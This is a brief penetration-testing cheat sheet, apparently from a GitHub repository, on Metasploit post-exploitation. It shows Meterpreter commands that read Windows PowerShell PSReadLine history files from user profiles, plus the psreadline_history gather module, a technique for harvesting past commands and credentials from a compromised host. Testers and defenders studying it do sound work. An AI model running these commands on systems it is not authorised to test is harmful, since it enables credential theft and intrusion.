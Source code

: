 # Metasploit

## 01 - Meterpreter Command

```
meterpreter > cat %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

meterpreter > cat %alluserprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

## 02 - Post Module

```
meterpreter > run post/windows/gather/psreadline_history
```

---
## References

- [Rapid7: Metasploit Framework - PSReadline History Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/psreadline_history.md)